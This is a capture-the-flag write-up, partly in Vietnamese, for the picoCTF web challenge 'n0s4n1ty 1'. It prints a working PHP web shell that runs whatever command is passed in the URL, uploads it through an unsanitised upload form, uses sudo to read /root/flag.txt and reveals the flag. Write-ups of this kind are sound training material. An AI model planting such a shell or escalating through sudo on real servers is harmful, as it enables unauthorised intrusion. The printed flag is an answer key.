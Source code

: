 # n0s4n1ty 1

Web, 100 points

## Description:

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

## Hint:

> 1.  File upload was not sanitized
> 2.  Whenever you get a shell on a remote machine, check sudo -l

## Solution:

Đây là 1 trang web có chức năng uploads 1 tập tin bất kì mà không kiểm tra đầu vào nội dung và phần mở rộng

Ta có thể tải lên 1 shell php để có thể thực thi lệnh để đọc được flag trong **root**

**shell.php**

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](../images/n0s4n1ty_1.png)

kiểm tra `sudo -l` ta thấy có thể thực hiện bất cứ lệnh nào

`sudo ls /root` ta sẽ thấy được tệp flag.txt

`sudo cat /root/flag.txt`

```
picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
```
